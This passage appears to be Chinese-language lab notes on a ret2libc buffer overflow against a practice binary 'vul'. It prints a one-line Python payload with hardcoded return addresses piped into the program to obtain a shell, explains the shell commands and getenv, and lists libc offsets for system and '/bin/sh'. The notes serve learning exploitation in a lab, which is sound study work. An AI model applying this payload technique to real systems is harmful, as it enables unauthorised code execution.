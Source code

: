 - 3.链接，就是将程序中出现的函数等，与其源文件进行“匹配连接”，例如实现标准输入输出就需要链接到库文件stdio.h中。因为在程序中我们只是调用这些函数，真正的实现还是在库文件中。

## exploit.sh溢出的内容检测

```shell
python -c 'print "A"*(0x28 + 4)+"\x10\x8e\xe2\xf7" + "dead" + "\x8f\x78\xf6\xf7"  ' > e

(cat e ; cat) | ./vul
```

1. `python -c`在命令行中执行python代码，`-c`是`command`的意思。

	1. 因为后面必须接一个字符串，可以用`" "`来放字符串，但是这样如果指令的字符串里面有字符串就没办法了，所以一般用三引号`'''print("hello")'''`来标识，其中可以换行和调用函数。

2. `> e`将生成的字符输入到文件`e`中（没有后缀名，就是一些bytes），然后

3. cat（英文全拼：concatenate）命令用于连接文件并打印到标准输出设备上。

	1. ```shell
		cat [-AbeEnstTuv] [--help] [--version] fileName
		```

4. 管道触发两个子进程执行"|"两边的程序，左边的命令应该有标准输出 | 右边的命令应该接受标准输入

## vul.c溢出分析

```c
 register void *ebp asm ("ebp");
```

在C语言中，`register`关键字用于请求[编译器](https://so.csdn.net/so/search?q=编译器&spm=1001.2101.3001.7020)将变量直接定义在寄存器中(编译器可能会根据实际情况忽略这个请求)。然而，这个功能在C++中是一个鸡肋，因此大多数C++不会针对`register`关键字进行特殊优化。

```c
char *shell = (char *) getenv("MYSHELL");
```

函数说明:getenv用来取得参数envvar环境变量的内容。参数envvar为环境变量的名称，如果该变量存在则会返回指向该内容的[指针](https://baike.baidu.com/item/指针)。环境变量的格式为envvar=value。getenv函数的返回值存储在一个全局二维数组里，当你再次使用getenv函数时不用担心会覆盖上次的调用结果。

**返回值:** 执行成功则返回指向该内容的指针，找不到符合的[环境变量](https://baike.baidu.com/item/环境变量)名称则返回NULL。如果变量存在但无关联值，它将运行成功并返回一个[空字符串](https://baike.baidu.com/item/空字符串)，即该字符的第一个字节是null。

### 步骤

1. 先通过读汇编，从`libc.asm`中找到几个关键函数地址，libc中的函数地址都是偏移地址。

	```python
	offset_system = 0x0003ce10
	#0003ce10 <__libc_system@@GLIBC_PRIVATE>:
	
	offset_str_bin_sh = 0x17b88f
	offset_exit = 0xbe295
	#000be295 <_exit@@GLIBC_2.0>:
	
	offset_puts = 0x00067460
	#00067460 <_IO_puts@@GLIBC_2.0>:
	main_addr = 0x08048534
	```

